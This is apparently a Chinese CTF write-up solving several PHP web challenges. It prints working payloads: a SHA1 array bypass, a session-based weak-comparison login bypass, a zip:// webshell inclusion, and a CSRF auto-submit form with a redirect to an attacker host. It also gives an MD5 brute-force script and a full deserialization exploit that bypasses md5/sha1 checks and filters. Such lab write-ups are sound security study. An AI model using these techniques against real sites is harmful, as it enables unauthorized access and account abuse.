# 2020

## welcome

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){  
    show_source(__FILE__);
    }   
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }   
}
```

### 数组绕过

```php
roam1[]=1&roam2[]=2
```

## myblog

### 知识点

> 修改PHPSESSION，使$_session['password']为空,绕过==
>
> 使用zip://协议包含图片马

打开发现是一个网站,url尝试一下文件包含



利用filter协议读取一下文件



```PHP
#login
<?php
require_once("secret.php");
mt_srand($secret_seed);
$_SESSION['password'] = mt_rand();
?>
```

```PHP
#secret
<?php
$secret_seed = mt_rand();
?>
```

```PHP
#admin/user   //登录后的url中有该路径
<?php
error_reporting(0);
session_start();
$logined = false;
if (isset($_POST['username']) and isset($_POST['password'])){
	if ($_POST['username'] === "Longlone" and $_POST['password'] == $_SESSION['password']){  // No one knows my password, including myself
		$logined = true;
		$_SESSION['status'] = $logined;
	}
}
if ($logined === false && !isset($_SESSION['status']) || $_SESSION['status'] !== true){
    echo "<script>alert('username or password not correct!');window.location.href='index.php?page=login';</script>";
	die();
}
?>

	  <?php
		if(isset($_FILES['Files']) and $_SESSION['status'] === true){
			$tmp_file = $_FILES['Files']['name'];
			$tmp_path = $_FILES['Files']['tmp_name'];
			if(($extension = pathinfo($tmp_file)['extension']) != ""){
				$allows = array('gif','jpeg','jpg','png');
				if(in_array($extension,$allows,true) and in_array($_FILES['Files']['type'],array_map(function($ext){return 'image/'.$ext;},$allows),true)){
						$upload_name = sha1(md5(uniqid(microtime(true), true))).'.'.$extension;
						move_uploaded_file($tmp_path,"assets/img/upload/".$upload_name);
						echo "<script>alert('Update image -> assets/img/upload/${upload_name}') </script>";
				} else {
					echo "<script>alert('Update illegal! Only allows like \'gif\', \'jpeg\', \'jpg\', \'png\' ') </script>";
				}
			}
		}
	  ?>
<script>
                  document.write(new Date().getFullYear())
 </script>, 
```

admin/user.php有两段，一段是关于登陆的逻辑，另外一个是关于文件上传的逻辑。

```
PHP
if ($_POST['username'] === "Longlone" and $_POST['password'] == $_SESSION['password'])
```

可见这里的比较密码用的是PHP弱类型比较，我们在把session删掉，这样 `$_SESSION['password']` 变成了Null，再将密码置为空，即可通过弱类型比较成功登录：



当然PHPSESSION不一定要置空,随便输入一个PHPSESSION就可以了,让我们的session文件不存在,我们的$_SESSION['password']也就为空了

然后成功登录到了另一个界面

阅读源码发现有个上传



这里就是一个白名单机制，结合前面的文件包含，我们很容易想到利用 图片马+文件包含来`getshell`

但问题来了，我们上传的文件 路径为 `./assets/img/upload/xxx.png` 然后我们包含的话，后面会给我们加上 `.php`

就不能成功包含了，这里我们可以用`zip://` 伪协议。zip:// 伪协议的格式为：

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

我们构造一个 一句话的` shell.php` ，然后压缩成zip，改一下后缀名（这里不影响zip伪协议）改成`png`

然后我们上传，最后包含成功 `getshell`

```
page=zip:///var/www/html/assets/img/upload/ce999132d18ebb87d093084b730adb3f05b22424.png%23shell
```

拼接之后相当于就是包含了 `shell.php`。



## Cross

扫一下目录,发现robots.txt



访问一下这几个目录

## flagshop

题目需要我们花钱去买flag,但是我们只有11块钱,得想办法让自己的钱变多,然后网站有一个转账功能,可以尝试csrf





这里抓包



是post的请求,不能直接在url中构造csrf,得利用javascript提交我们的poc,先用burp生成poc,

然后加一点JavaScript让他自动提交

```html
ction="http://60f43ecd-62a6-477c-99c0-ae67e9e12ad6.node3.buuoj.cn/transfer.php" method="POST" enctype="multipart/form-data" name="csrf">
      <input type="hidden" name="target" value="Pp1ove" />
      <input type="hidden" name="money" value="1000000" />
      <input type="hidden" name="messages" value="123" />
      <input type="submit" value="Submit request" />
    </form>
<script>
document.forms[0].submit();
</script>
  </body>
</html>

```

准备使用报告模块发送我们的xss链接:



比较md5的前五位,直接爆破就行,copy一下网上的脚本

```python
from multiprocessing.dummy import Pool as tp
import hashlib

knownMd5 = 'b5ffe'      #已知的md5明文

def md5(text): 
    return hashlib.md5(str(text).encode('utf-8')).hexdigest()

def findCode(code):   
    key = code.split(':')
    start = int(key[0])  
    end = int(key[1]) 
    for code in range(start, end):
        if md5(code)[0:5] == knownMd5:            
            print code
            break
list=[] 
for i in range(3):    #这里的range(number)指爆破出多少结果停止
    list.append(str(10000000*i) + ':' + str(10000000*(i+1)))
pool = tp()    #使用多线程加快爆破速度
pool.map(findCode, list) 
pool.close()
pool.join()
```

然后提交报告,在报告内容中写

```
<script>window.location.href="https://yourip/csrf.php"</script>
```

但是没有成功,因为是在buu上做的,这道题也是0解,估计是环境出了问题,就不管了

## Greatphp

### 知识点

> 利用原生类绕过md5===
>
> 利用取反符号~取代引号绕过preg_match
>
> ?><?=绕过报错信息,执行php代码,以及<?=和<?php相等

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

前置知识: exception::toString

https://www.php.net/manual/zh/exception.tostring.php



因为

```
(md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)
```

在同一行,所以他们的报错信息是相同的,

```
Error: payload in /usercode/file.php:2
Stack trace:
#0 {main}

Error: payload in /usercode/file.php:2
Stack trace:
#0 {main}
```

即可以绕过md5和sha1函数

然后我们不能使用 括号,无法调用函数,所以可以尝试直接使用include "/flag" ，因为过滤了引号,我们使用url取反绕过，

```
<?php


$str="/flag";
$b=urlencode(~$str);

echo $b; //得到b为%D0%99%93%9E%98
```

payload：

```PHP
<?php

class SYCLOVER {
	public $syc;
	public $lover;
	public function __wakeup(){
		if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
		   if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
			   eval($this->syc);
		   } else {
			   die("Try Hard !!");
		   }
		   
		}
	}
}
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    

$str = "?><?=include $_GET[_]?>"; 
*/
$a= new SYCLOVER();
$b=	new Exception($str,1);$c= new Exception($str,2);
echo $b;
echo "</br>";
echo $c;
$a->syc=$b;
$a->lover=$c;
echo urlencode(serialize($a));

```

这里 `$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";` 中为什么要在前面加上一个 `?>` 呢？因为`Exception` 类与 `Error` 的 `__toString` 方法在eval()函数中输出的结果是不可能控的，即输出的报错信息中，payload前面还有一段杂乱信息“Error: ”

因为我们需要报错信息相同,而报错时会所以还得让

$b=new Exception($str,1);$c= new Exception($str,2);位于同一排

若我们不位于同一排,报错的字符串是不同的



